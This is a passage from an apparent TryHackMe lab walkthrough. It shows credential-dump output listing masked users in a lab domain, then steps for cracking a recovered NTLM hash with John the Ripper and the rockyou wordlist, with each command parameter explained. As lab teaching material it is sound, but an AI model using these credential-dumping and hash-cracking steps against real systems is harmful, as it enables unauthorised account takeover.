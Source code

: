 ```bash          
        tspkg :
        wdigest :
         * Username : em***
         * Domain   : THM
         * Password : (null)
        kerberos :
         * Username : Mc***
         * Domain   : THM
         * Password : (null)
        ssp :
        credman :

```        
>>From the output above, you can see that we could obtain the NTLM and SHA1 hashes for another user logged onto the machine. Now that we have the NTLM password hash, let's try to crack the hash to retrieve the clear-text password.    

----

# Cracking Password Hashes

>>In the previous section, we mentioned that we could pass in the combinations of potential input to the hashing algorithm in use and compare these hashes against our target hash. In this case, we'll use a tool called John The Ripper to crack the password hashes. To use John The Ripper, start the AttackBox and copy the NTLM hash you've recovered into a file called hash.txt

>>Entering Password Hash

```        
echo 'PASSWORD-HASH-HERE'> hash.txt
```     

>>Once you've copied the hash, run the following command:

>>Cracking Password Hash

```        
john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt --pot=output.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
1********       (?)
1g 0:00:00:00 DONE (2021-12-20 17:59) 100.0g/s 19200p/s 19200c/s 19200C/s 123456..november
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```        
>>The parameters and arguments used in the command above are as follows:

 * —format=NT is used to represent the type of the hash. In this case, we're specifying that we want to crack an NTLM hash. You can find a full list of formats supported by john using the john --list=formats command.
 * /usr/share/wordlists/rockyou.txt is the wordlist containing the input passwords that will be hashed by john and compared against our hash.
 * hash.txt represents the text file containing the hash
 * —pot=output.txt represents the output file that the clear text retrieved password will be stored in
